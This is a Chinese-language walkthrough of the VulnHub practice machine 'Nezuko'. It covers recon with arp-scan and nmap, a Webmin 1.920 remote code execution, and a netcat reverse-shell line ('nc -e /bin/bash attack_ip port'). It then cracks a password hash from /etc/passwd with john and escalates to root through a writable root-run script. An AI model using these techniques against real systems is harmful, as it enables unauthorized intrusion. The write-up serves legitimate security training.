





# Nezuko

## Information
**Nezuko** is a vulnerable machine created by [VulnHub](https://www.vulnhub.com/entry/jarbas-1,232/).

## 思路
**0x01 信息搜集**
`arp-scan -l` 扫描局域网内存活的主机
`nmap -p- -A`扫描目标主机上开放的服务

发现目标主机上开放了22、80和13337端口，检查80端口后未发现异常，查看13337端口

结合nmap扫描情况，可以知道是1.920版本的Webmin，通过在网上搜索可以发现针对该版本的一个远程代码执行的漏洞。

写入`nc -e /bin/bash attack_ip port`，并且在自身主机上监听设定的port端口。
反弹成功之后，得到一个普通用户nezuko的shell，通过查看/home目录下的文件夹发现还有一个zenitsu的用户。

使用 `python-c 'import pty;pty.spawn("/bin/bash")'`
在/home/nezuko目录下的nezuko.txt文件中发现第一个flag

查看from_zenitsu目录下的文件，发现有很多按日期命名的文件，并且文件属于root用户，怀疑是由zenitsu用户发送过来的，接着横向提权到zenitsu

cat /etc/passwd，找出zenitsu的密码，密码是经过MD5加密的，使用john进行暴力破解后，得到用户密码。

同样在/home/zenitsu目录下发现了zenitsu.txt文件，里面有第二个flag

查看/home/zenitsu/to_nezuko目录下的sh文件，发现内容为给nezuko的用户目录写入文件

经过前面的分析可以知道，该脚本应该是以root身份运行的，那么我们把想要以root身份执行的命令写入到该脚本中，则可以获得root权限。

在该sh脚本后面追加shell反弹命令，并且在本地主机上进行监听，等待5分钟之后，将会得到一个root命令的shell。

然后去到/root目录下面，发现会有一个root.txt文件，打开文件后得到第三个flag。
